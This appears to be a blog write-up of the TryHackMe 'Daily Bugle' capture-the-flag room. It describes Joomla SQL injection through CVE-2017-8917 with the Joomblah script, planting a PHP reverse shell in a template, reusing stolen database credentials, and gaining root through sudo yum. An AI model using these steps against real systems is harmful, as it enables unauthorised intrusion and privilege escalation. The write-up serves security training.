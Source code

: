 ```yaml
---
title: 'Daily Bugle'
description: "Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum."
date: 2024-05-04T17:10:10+02:00
tags: 
    - "thm"
    - "hard"
external_url: "https://tryhackme.com/r/room/dailybugle"
draft: false
---
```


<img class="write-up__banner" src="/write-up/H98yNCQ.png" alt="Room Banner">

## Questions
1. Access the web server, who robbed the bank?
1. What is the Joomla version?
1. What is Jonah's cracked password?
1. What is the user flag?
1. What is the root flag?

## Reconnaissance
After deployment, I started by just going to `http://trgt/`. It loaded a Joomla webpage where I immediately found the first answer.
The spelling was diffrent, had to replace a character for it to work. 

I checked the Joomla version by going to `http://trgt/administrator/manifests/files/joomla.xml` allowing me to get the second question.

## Exploitation
The Joomla CMS was vulnerable to [CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917), an SQLi vulnerability.
I used [Joomblah](https://github.com/XiphosResearch/exploits/tree/master/Joomblah) to exploit this vulnerability.
```
$ python3 joomblah.py http://trgt/

    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '<password hash>', '', '']
  -  Extracting sessions from fb9j5_session
```

Cracking the password gave me a working login for a "Super User". I went to `http://trgt/administrator/` which allowed me to login.

## Foothold
Getting a foothold on the Joomla server was very similar to a WordPress server. Login as a priviliged user, go to themes / templates, add your own PHP reverse shell and profit.

For a reverse shell I used [pentestmonky](https://github.com/pentestmonkey/)'s [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). This was easily and quickly done by using [revshells](https://www.revshells.com/).

I stablized the shell by doing
1. `$ python -c 'import pty;pty.spawn("/bin/bash")'` (python3 wasn't available on the box)
2. `CTRL + Z`
3. `$ stty raw -echo; fg`
4. `$ export TERM=xterm`

Which gave me a better and more useable shell.


## Privilege Escalation
### User
Looking at `/home/` I saw a user called "jjameson" but the home directory was locked down.
Further looking around, I found `configuration.php` in `/var/html/www/` which stored MySQL credentials.

The MySQL database wasn't all that interesting so I tried logging in to the user with the password which worked and gave me the user flag.

### Root
Doing a simple `sudo -l` showed that "jjameson" could run `yum` with root privileges. Looking it up on [GTFOBins](https://gtfobins.github.io/) gave me the information needed to get root shell and therefore the root flag.